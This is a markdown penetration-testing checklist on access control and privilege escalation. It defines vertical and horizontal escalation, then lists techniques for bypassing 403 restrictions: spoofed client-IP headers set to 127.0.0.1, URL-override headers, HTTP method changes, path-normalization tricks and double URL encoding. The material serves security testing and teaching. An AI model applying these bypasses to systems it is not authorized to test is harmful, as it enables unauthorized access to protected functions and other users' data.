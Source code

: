# Access control and privilege Escalation

## Vertical Privilege Escalation
- If a user can gain access to functionality that they are not permitted to access then this is vertical privilege escalation. For example, if a non-administrative user can gain access to an admin page where they can delete user accounts, then this is vertical privilege escalation.

## Horizontal Privilege Escalation
- Horizontal privilege escalation occurs if a user is able to gain access to resources belonging to another user, instead of their own resources of that type.


- [ ]  Parameter Pollution
- [ ]  Try different verbs on every function
- [ ]  Always check source code and robots.txt file
- [ ]  Fuzz hidden parameters in login page
- [ ]  Check whether admin cookie exist e.g. admin= roleid=
- [ ]  Check whether roleid in Response
- [ ]  Check whether GUID is disclosed in some place
- [ ]  Check whether victim data is disclosed while login page redirection
- [ ]  Bypass 403 by X-Original-URL: OR X-Rewrite-URL: (Override URL)
- [ ]  Bypass 403
    
    **IP-based Access Control:**
    
    - X-Originating-IP: 127.0.0.1
    - X-Forwarded-For: 127.0.0.1
    - X-Forwarded: 127.0.0.1
    - Forwarded-For: 127.0.0.1
    - X-Forwarded-Host: 127.0.0.1
    - X-Remote-IP: 127.0.0.1
    - X-Remote-Addr: 127.0.0.1
    - X-ProxyUser-Ip: 127.0.0.1
    - X-Original-URL: 127.0.0.1
    - Client-IP: 127.0.0.1
    - X-Client-IP: 127.0.0.1
    - X-Host: 127.0.0.1
    - True-Client-IP: 127.0.0.1
    - Cluster-Client-IP: 127.0.0.1
    - X-ProxyUser-Ip: 127.0.0.1
    - Via: 1.0 fred, 1.1 127.0.0.1
- [ ]  Bypass 403 by change method to POSTX,  GET, CONNECT, Head and so
- [ ]  Bypass 403
    
    **URL-matching Discrepancies**
    
    - site.com/secret –> HTTP 403 Forbidden
    - site.com/SECRET –> HTTP 200 OK
    - site.com/secret/ –> HTTP 200 OK
    - site.com/secret/. –> HTTP 200 OK
    - site.com//secret// –> HTTP 200 OK
    - site.com/./secret/.. –> HTTP 200 OK
    - site.com/;/secret –> HTTP 200 OK
    - site.com/.;/secret –> HTTP 200 OK
    - site.com//;//secret –> HTTP 200 OK
    - site.com/secret.json –> HTTP 200 OK (ruby)
    - site.com/secret.anything -> HTTP 200 OK
- [ ]  Bypass 403 by tampering with Referer header
- [ ]  Bypass Blocked paths
    - Try using // instead of / in the path
    - Try using /uploads/ instead of /uploads
    - Try using `.` or `%2e`: /%2e/path
    - Try also /%252e/path (double URL encode)